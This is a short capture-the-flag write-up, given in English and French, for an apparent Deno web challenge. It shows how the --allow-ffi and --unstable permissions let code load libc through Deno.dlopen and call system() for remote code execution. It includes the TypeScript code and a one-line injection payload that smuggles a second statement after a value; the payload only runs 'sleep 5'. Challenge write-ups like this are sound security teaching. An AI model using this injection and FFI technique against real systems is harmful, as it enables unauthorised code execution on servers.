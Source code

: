 # Writeup

## English

The permissions have changed from the first challenge: 
- `--allow-ffi`
- `--unstable`
- `--allow-env`
- `--allow-net=0.0.0.0:8086`
- `--allow-read=/app/astro_web_chall/dist/client/favicon.ico`

There is no longer the permission to read the contents of the file with the admin password. However, there is the `-allow-ffi` and `--unstable` permission pair which allows the use of Deno's FFI feature. This feature allows dynamic libraries to be used from within Deno. The `/lib/x86_64-linux-gnu/libc.so.6` library is present by default and offers interesting features such as the `system()` function to get an RCE.

```typescript
const libName = "/lib/x86_64-linux-gnu/libc.so.6";
const dylib = Deno.dlopen(libName, {
  "system": { parameters: ["buffer"], result: "isize" },
});
const buffer = new TextEncoder().encode("sleep 5");
dylib.symbols.system(buffer);
```

Payload : 

`green;let dylib = Deno.dlopen("/lib/x86_64-linux-gnu/libc.so.6", {"system": { parameters: ["buffer"], result: "isize" },});dylib.symbols.system(new TextEncoder().encode("sleep 5"));`

Links : 
- https://medium.com/deno-the-complete-reference/calling-c-functions-from-deno-part-2-pass-buffers-ad168a3b6cc7
- https://guokeya.github.io/post/dEqQEWai4/
- https://deno.land/manual@v1.27.2/runtime/ffi_api

## Français

Les permissions ont changé par rapport au premier challenge : 
- `--allow-ffi`
- `--unstable`
- `--allow-env`
- `--allow-net=0.0.0.0:8086`
- `--allow-read=/app/astro_web_chall/dist/client/favicon.ico`

Il n'y a plus la permission qui permettait de lire le contenu du fichier avec le mot de passe de l'admin. Par contre, il y a le couple de permissions `-allow-ffi` et `--unstable` qui permet d'utiliser la fonctionnalité FFI de Deno. Cette fonctionnalité permet d'utiliser des librairies dynamiques à partir de Deno. La librairie `/lib/x86_64-linux-gnu/libc.so.6` est présente par défault et propose des fonctions intéressantes comme la fonction `system()` pour obtenir une RCE.

```typescript
const libName = "/lib/x86_64-linux-gnu/libc.so.6";
const dylib = Deno.dlopen(libName, {
  "system": { parameters: ["buffer"], result: "isize" },
});
const buffer = new TextEncoder().encode("sleep 5");
dylib.symbols.system(buffer);
```

Payload : 

`green;let dylib = Deno.dlopen("/lib/x86_64-linux-gnu/libc.so.6", {"system": { parameters: ["buffer"], result: "isize" },});dylib.symbols.system(new TextEncoder().encode("sleep 5"));`

Liens : 
- https://medium.com/deno-the-complete-reference/calling-c-functions-from-deno-part-2-pass-buffers-ad168a3b6cc7
- https://guokeya.github.io/post/dEqQEWai4/
- https://deno.land/manual@v1.27.2/runtime/ffi_api
